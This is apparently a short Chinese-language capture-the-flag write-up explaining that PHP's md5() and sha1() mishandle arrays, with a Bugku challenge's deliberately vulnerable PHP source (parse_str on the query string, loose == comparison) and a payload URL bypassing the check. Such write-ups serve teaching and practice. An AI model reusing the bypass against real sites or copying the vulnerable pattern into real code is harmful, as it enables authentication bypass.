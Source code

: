 ```yaml
---
因为md5\(\)和sha1\(\)不能处理数组，当输入数组的时候就会报错，返回false，从而使一些判断条件成立
---
```

## 直接上一个bugku的题说明一下问题
```php
<?php
/**
 * Created by PhpStorm.
 * User: Norse
 * Date: 2017/8/6
 * Time: 20:22
*/

include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');  //返回url包括问号后面的内容
$str = substr($str,1); //去掉问号
$str = str_replace('key','',$str); //key替换成空
parse_str($str);//这里最后$str = key1[]= adsa&&key2=adsa
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```

payload：[http://120.24.86.145:8002/web16/index.php?kkeyey1\[\]=1&&kkeyey2\[\]=2](http://120.24.86.145:8002/web16/index.php?kkeyey1[]=1&&kkeyey2[]=2)